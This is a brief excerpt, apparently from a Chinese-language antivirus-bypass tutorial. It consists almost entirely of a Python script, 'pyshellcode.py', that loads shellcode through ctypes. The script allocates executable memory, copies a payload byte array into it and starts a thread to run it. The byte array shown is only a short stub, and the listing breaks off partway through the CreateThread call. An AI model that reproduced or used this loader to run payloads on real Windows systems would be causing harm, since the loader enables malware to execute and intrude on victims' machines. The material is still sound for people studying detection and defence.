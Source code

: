 ![801a3158fafbacf996a18c123a759e0a](images/2020.04-bypass-05/1.png)

python代码`pyshellcode.py`

```
#!/usr/bin/python
import ctypes

shellcode = bytearray("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b")

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
```